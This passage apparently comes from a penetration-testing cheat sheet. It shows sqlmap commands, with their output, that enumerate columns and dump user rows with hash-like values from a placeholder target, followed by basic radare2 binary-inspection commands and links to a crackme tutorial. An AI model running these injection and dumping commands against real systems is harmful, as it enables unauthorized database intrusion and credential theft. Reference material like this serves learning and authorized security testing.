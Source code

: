 ```bash
Database: pentest_me
[1 table]
+--------+
| table1 |
+--------+
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me -T table1 --columns # find columns
Database: pentest_me
Table: table1
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| col1     | varchar(64) |
| col2     | varchar(12) |
+----------+-------------+
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me -T table1 -C "col1,col2" --dump # dump rows
Database: pentest_me
Table: table1
[3 entries]
+----------+----------------------------------+
| col1     | col2                             |
+----------+----------------------------------+
| user1    | 0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd |
| user2    | MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 |
| user3    | VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD |
+----------+----------------------------------+
```

Reference
- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- https://github.com/sqlmapproject/sqlmap/wiki/Presentations

## radare2
Useful links
- Radare book [https://radare.gitbooks.io/radare2book/content/](https://radare.gitbooks.io/radare2book/content/)
- Crackme tutos [https://dustri.org/b/defeating-ioli-with-radare2.html](https://dustri.org/b/defeating-ioli-with-radare2.html)

### Basics
```bash
$ radare2 my_executable.exe # for Windows
$ r2 my_bin # for UNIX
[0x00401220]> # r2 opens a shell-like
[0x00401220]> i # file info
  file     ~\my_bin
  format   pe
  iorw     false
  mode     r-x
  size     0x3c94
  humansz  15.1K
  type     EXEC (Executable file)
  arch     x86
  binsz    15508
  bintype  pe
  bits     32
[0x00401220]> ? 0x636261 # debug string in various formats
  hex     0x636261
  octal   030661141
  int32   6513249
  string  "abc"
  binary  0b011000110110001001100001
```